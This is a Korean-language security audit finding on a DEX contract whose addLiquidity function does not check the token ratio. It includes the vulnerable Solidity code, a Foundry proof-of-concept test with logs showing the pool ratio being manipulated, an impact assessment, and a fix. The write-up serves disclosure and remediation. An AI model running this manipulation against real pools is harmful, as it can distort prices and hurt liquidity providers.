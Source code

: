 # DEX - addLiquidity의 유동성 공급비 검증의 부재

## 설명

<aside>

### **키워드 : Vulnerability - 유동성 풀 조작**

### **심각도 : Critical**

`addLiquidity` 함수내부에서 두 토큰의 유동성 공급량 비율에 대한 검증이 이루어지지 않는다.
이를 악용하여 유동성 풀에 원하는 비율로 토큰을 공급하여 교환비를 조작할 수 있다.

</aside>

```solidity
if (totalLiquidity == 0) {
    // 정밀도
    lpTokenCreated = _sqrt(tokenXAmount * tokenYAmount);
    require(lpTokenCreated >= tokenMinimumOutputAmount, "Minimum liquidity not met.");
    totalLiquidity = lpTokenCreated;
} else {
    {
        tokenXReserve = tokenX.balanceOf(address(this));
        tokenYReserve = tokenY.balanceOf(address(this));


        // L_x = X*P_x, L_y = Y*P_y (유동성 가치의 토큰 가치 비례) => P_x = L_x/X
        liquidityX = _div(_mul(tokenXAmount, totalLiquidity), tokenXReserve);
        liquidityY = _div(_mul(tokenYAmount, totalLiquidity), tokenYReserve);

    }
    // 최소 수량 유동성 공급 검증
    lpTokenCreated = (liquidityX < liquidityY) ? liquidityX : liquidityY;
    require(lpTokenCreated >= tokenMinimumOutputAmount, "Minimum liquidity not met.");
    totalLiquidity += lpTokenCreated;
}

liquidity[msg.sender] += lpTokenCreated;
tokenX.transferFrom(msg.sender, address(this), tokenXAmount);
tokenY.transferFrom(msg.sender, address(this), tokenYAmount);
```

토큰 발급은 더 적은 토큰 공급량에 맞추기 때문에 이를 악용하여 DEX의 유동성을 탈취하는 행위는 불가능하다.

하지만 기존 비율과 맞지 않는 유동성을 공급할 수 있고, 이는 전체 유동성 풀의 비율을 깨뜨릴 수 있게 된다.

## PoC

```solidity
function testPOC() external {
    tokenX.transfer(address(0x01), 1 ether);
    tokenY.transfer(address(0x01), 100 ether);

    tokenX.transfer(address(0x02), 100 ether);
    tokenY.transfer(address(0x02), 102 ether);
    uint256 LP1;
    vm.startPrank(address(0x01));
    {
        tokenX.approve(address(dex), type(uint).max);
        tokenY.approve(address(dex), type(uint).max);
        LP1 = dex.addLiquidity(1 ether, 100 ether, 0);
        console.log("LP1", LP1);
    }
    vm.stopPrank();

    vm.startPrank(address(0x02));
    {
        tokenX.approve(address(dex), type(uint).max);
        tokenY.approve(address(dex), type(uint).max);
        uint256 lp = dex.addLiquidity(100 ether, 1 ether, 0);
        console.log("LP2", lp);

        console.log(
            "user 2 : before swap balance",
            tokenX.balanceOf(address(0x02)),
            tokenY.balanceOf(address(0x02))
        );
        uint res = dex.swap(0, 101 ether, 0);
        console.log(
            "user 2 : after swap balance",
            tokenX.balanceOf(address(0x02)),
            tokenY.balanceOf(address(0x02))
        );

        dex.removeLiquidity(lp, 0, 0);
        console.log(
            "user 2 : Attack result",
            tokenX.balanceOf(address(0x02)),
            tokenY.balanceOf(address(0x02))
        );
    }
    vm.stopPrank();
}
```

```solidity
Running 1 test for test/DEX.t.sol:DexTest
[PASS] testPOC() (gas: 463358)
Logs:
  LP1 10000000000000000000
  LP2 100000000000000000
  user 2 : before swap balance 0 101000000000000000000
  user 2 : after swap balance 50474737368684342171 0
  user 2 : Attack result 50974987493746873436 2000000000000000000
```

swap의 결과를 보면 알 수 있듯 100:1 의 가치로 교환이 되어야 하지만 유동성 풀의 비율이 101:101 로 깨진 상태이기에 Y토큰 101 ether로 X 토큰 약 50 ether를 교환한 것을 확인할 수 있다.

하지만 토큰 발행량은 더 적은 쪽인 Y토큰에 맞춰 발행되었기에  LP 토큰 수는 실제 공급량보다 적게 발행되었기에 공격을 시도하더라도 공격자가 이득을 취할 수 있는 방법은 존재하지 않는 것으로 보인다.

## 파급력

개인이든 집단이든 공격을 통해 유동성풀의 비율을 깨뜨려 교환비를 변경할 수는 있지만, 공격을 통해 깨진 유동성 풀의 비율로 인한 이득은 기존에 유동성풀을 공급한 모두가 공유하는 구조이기에 공격을 위해 투자한 비용을 모두 회수하며 추가적인 이득을 보는 방법은 존재하지 않는다.

피싱이나 요청을 조작하는 등 제 3자가 잘못된 비율로 유동성공급을 하도록 유도한 뒤 변화한 유동성을 이용하여 토큰을 변환하거나 유동성을 제거하여 이득을 취할 수는 있지만 이를 직접 유동성의 변화를 만든뒤 이득을 취하는 용도로 악용하는 방도는 없어 보인다.

그렇다고 할지라도 DEX의 중심 기능이자 핵심인 유동성 풀의 비율을 자본을 투입하여 망가뜨릴 수 있다는 것은 DEX의 가용성을 해친다고도 볼 수 있기에 위험도는 매우 위험하다고 판단하였다.

## 해결 방법

```solidity
require(
    tokenXAmount * amountY == tokenYAmount * amountX,
    "imbalance add liquidity"
);
```

를 추가하여 비율이 맞지 않으면 revert 시키거나 비율에 맞는 만큼만 공급량에 추가하도록 로직을 수정해야 한다.
